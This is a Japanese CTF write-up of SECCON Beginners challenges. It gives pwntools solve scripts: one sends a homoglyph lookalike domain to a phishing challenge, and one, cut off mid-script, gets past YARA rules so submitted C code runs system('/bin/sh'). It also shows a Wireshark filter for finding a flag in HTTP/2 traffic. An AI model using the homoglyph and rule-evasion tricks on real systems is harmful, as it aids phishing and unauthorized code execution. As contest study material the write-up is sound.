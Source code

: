 (上のやつコンテスト中はなぜか通らずに発狂していた、その時はωを色々変えてみたら通った。why)

```python
#!/usr/bin/python3
from pwn import *                                                                                                                                             
import sys                                                                                                                                                    
                                                                                                                                                              
context(os='linux', arch='i386')                                                                                                                              
context.log_level = 'debug'                                                                                                                                   
                                                                                                                                                              
HOST = "phisher.quals.beginners.seccon.jp"                                                                                                                    
PORT = 44322                                                                                                                                                  
                                                                                                                                                              
conn = remote(HOST, PORT)  
fqdn = 'ωωω․ехамрІе․сом'  
#fqdn = 'ωωŵ․ехамрІе․сом'  
                                                                                                                                                              
conn.sendlineafter(": ", fqdn)                                                                                                                                
                                                                                                                                                              
conn.interactive() 
```


生成される画像
![](/uploads/ans.png)


### H2 
pcapファイルが配布される。
HTTP2の大量の通信のどこかに出力されてるx-flagヘッダにflagがあるらしい。
5億年ぶりにwiresharkを起動した。
大体のレスポンスがLength:49なので、フィルタに"http2.length > 49"を入力

![](/uploads/h2_ans.png)


### ultra\_super\_miracle\_validator
cソースコードを渡したらそれをコンパイルして実行してくれる。
ただyaraでいくつかのルールが定義されていて、それをパスしないと実行してくれない。
最初見た時なんかの命令が禁止されているのかと思ったが、ルールをよく見ると定義された文字列を含めたらパスできる感じだった。
charの配列としてそれらの文字列を定義しておけば、コンパイル後もその文字列が出てくるはずなので適当に定義した後、system("/bin/sh")を実行するcコードを送信する

```python
#!/usr/bin/python3
from pwn import *
import sys

#config
context(os='linux', arch='i386')
context.log_level = 'debug'

HOST = "ultra-super-miracle-validator.quals.beginners.seccon.jp"
PORT = 5000

conn = remote(HOST, PORT)

code = ''
code =  'char* x1="\\xe3\\x82\\x89\\xe3\\x81\\x9b\\xe3\\x82\\x93\\xe9\\x9a\\x8e\\xe6\\xae\\xb5";'
code += 'char* x9="\\xe7\\xb4\\xab\\xe9\\x99\\xbd\\xe8\\x8a\\xb1";'
```